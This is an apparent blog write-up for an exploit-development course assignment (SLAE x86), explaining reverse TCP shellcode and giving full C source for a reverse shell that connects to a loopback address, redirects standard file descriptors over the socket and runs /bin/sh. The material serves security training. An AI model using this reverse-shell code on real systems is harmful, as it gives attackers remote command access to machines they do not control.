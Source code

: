 ```yaml
---
title:  "SLAE x86 Assignment 2: Reverse TCP Shell"
header:
  teaser: "/assets/images/slae32.png"
  teaser_home_page: true
categories:
  - exploit dev
classes: wide
tags:
  - exploit dev
  - slae
---
```


Hey guys! Welcome back! In this post, we will write a reverse shell shellcode for assignment 2 of the Pentester Academy SLAE x86
certification. Let's begin with assignment 2!

## Understanding the objective ##
Again, let's start off by breaking down the code's major working parts. The shellcode must do the following:

- Creates and configures a socket
- Connects to a given address
- Duplicates standard file descriptors, so that the shell can interact with the socket
- Spawns a shell

We can now write some c code based on this outline. Of course as you can see, this is slightly less complex, compared to the bind shell done previously:

```c
// SLAE Assignment 1: Reverse TCP Shell (Linux/x86)
// Author: 4p0cryph0n
// Website: https://4p0cryph0n.github.io

#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main()
{
    //Defining Address Structure
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(4443); //Port no.
    addr.sin_addr.s_addr = inet_addr("127.0.0.1"); //Connect to loopback

    //Create and Configure Socket
    int sockfd = socket(AF_INET, SOCK_STREAM, 0);

    //Connect
    connect(sockfd, (struct sockaddr *)&addr, sizeof(addr));

    //Duplicate Standard File Descriptors
    for (int i = 0; i <= 2; i++)
    {
        dup2(sockfd, i);
    }

    //Execute Shell
    execve("/bin/sh", NULL, NULL);
    return 0;
}
```
In this code, we will only need the ```connect()``` function, instead of ```listen()```, ```bind()```, and ```accept()```. Keep in mind though, in order to duplicate the standard file descriptors, we will use our initial socket descriptor, different from what we did in the bind shell.
